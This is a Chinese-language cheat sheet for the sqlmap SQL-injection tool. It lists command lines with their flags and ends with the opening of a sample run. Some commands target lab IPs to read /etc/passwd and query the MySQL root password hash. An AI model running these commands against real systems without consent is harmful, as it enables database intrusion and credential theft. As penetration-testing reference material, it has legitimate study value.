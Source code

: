 ```bash

# 指定参数注入 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "id" 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "cat,id" 
# 指定方法和post的数据 
sqlmap -u "http://192.168.1.47/page.php" --method "POST" --data "id=1&cat=2" 
# 指定cookie,可以注入一些需要登录的地址 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --cookie "COOKIE_VALUE" 
# 指定关键词，也可以不指定。程序会根据返回结果的hash自动判断 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --string "STRING_ON_TRUE_PAGE" 
# 显示指定的文件内容，一般用于php 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --file-read /etc/passwd 
# 执行你自己的sql语句
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --sql-query="SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" 
# union注入 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --union-check 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --union-use --banner 
# 保存注入过程到一个文件, 支持从文件恢复出注入过程 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -b -o "sqlmap.log" 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --banner -o "sqlmap.log" --resume
```

# 常用的参数

- `*`：在注入的过程中，有时候会存在伪静态的页面，此时可以使用星号表示可能存在注入的部分。sqlmap 可以区分一个 URL 里面的参数来进行注入点测试，但在遇到了一些做了伪静态的网页就无法自动识别了。比如：`'/admin/1/'`，sqlmap 无法自动识别注入点，对于这种网页，可以直接在参数后加上一个星号，手动标注注入位置，如`sqlmap -u "www.baidu.com/admin/1*"`
- `--data`：使用 post 方式提交时，需要用到 data 参数
- `-p`：当我们已经事先知道哪一个参数存在注入就可以直接使用 -p 来指定，从而减少运行时间
- `--level`：不同的 level 等级，当 level 的参数设定为 2 或者 2 以上的时候，sqlmap 会尝试注入 Cookie 参数；当 level 参数设定为 3 或者 3 以上的时候，会尝试对 User-Angent，Referer 进行注入。
- `--technique`：这个参数可以指定 sqlmap 使用的探测技术，默认情况下会测试所有的方式。支持的探测方式如下：B：Boolean-based blind SQL injection（布尔型注入）；E：Error-based SQL injection（报错型注入）；U：UNION query SQL injection（可联合查询注入）；S：Stacked queries SQL injection（可多语句查询注入）；T：Time-based blind SQL injection（基于时间延迟注入）

# 示例

## 第一步：查找注入点

输入：`sqlmap -u '192.168.3.59/article.php?id=1'`。

输出：出现`Parameter: id (GET)`等内容，存在注入点。

```
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:30:43

[11:30:43] [INFO] resuming back-end DBMS 'mysql' 
[11:30:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
```